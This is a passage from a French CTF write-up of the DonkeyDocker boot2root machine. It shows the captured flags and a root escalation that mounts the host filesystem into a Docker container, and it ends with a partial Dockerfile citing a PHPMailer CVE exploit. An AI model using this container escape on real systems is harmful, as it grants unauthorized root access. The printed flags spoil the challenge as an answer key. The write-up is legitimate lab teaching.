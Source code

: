 ```plain
 - GPG key: 0x2641123C 
 - GPG fingerprint: 4E3444A11BB780F84B58E8ABA8DD99472641123C 

Level:       I think the level of this boot2root challange 
             is hard or intermediate. 

Try harder!: If you are confused or frustrated don't forget 
             that enumeration is the key! 

Thanks:      Special thanks to @1nternaut for the awesome 
             CTF VM name! 

Feedback:    This is my first boot2root - CTF VM, please 
             give me feedback on how to improve! 

Looking forward to the write-ups! 

donkeydocker:~$ cat flag.txt  
You tried harder! Good work ;-) 

Here a flag for your effort: flag01{e20523853d6733721071c2a4e95c9c60}
```

Boys on the docks
-----------------

L'utilisateur fait partie du groupe Docker. Est-ce que j'ai besoin d'en dire d'avantage ?   

```plain
donkeydocker:~$ docker images 
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE 
donkeydocker        latest              ae644a321321        4 years ago         276 MB 
debian              jessie              8cedef9d7368        4 years ago         123 MB

donkeydocker:~$ docker run -v /:/mnt/host -it 8cedef9d7368 /bin/bash
donkeydocker:~# cd /mnt/host/root
donkeydocker:~# cat flag.txt  
YES!! You did it :-). Congratulations! 

I hope you enjoyed this CTF VM. 

Drop me a line on twitter @dhn_, or via email dhn@zer0-day.pw 

Here is your flag: flag2{60d14feef575bacf5fd8eb06ec7cd8e7}
```

Sous le capot
-------------

Et pour terminer l'article voici le Dockerfile du CTF :  

```plain
FROM debian:jessie 

# this Dockerfile based on: https://github.com/opsxcq/exploit-CVE-2016-10033 
MAINTAINER dhn <dhn@zer0-day.pw 

RUN apt-get update && \ 
    apt-get upgrade -y && \ 
    DEBIAN_FRONTEND=noninteractive apt-get install -y \ 
    apache2 \ 
    php5 \ 
    python \  
    sendmail \ 
    whois \ 
    wget \ 
```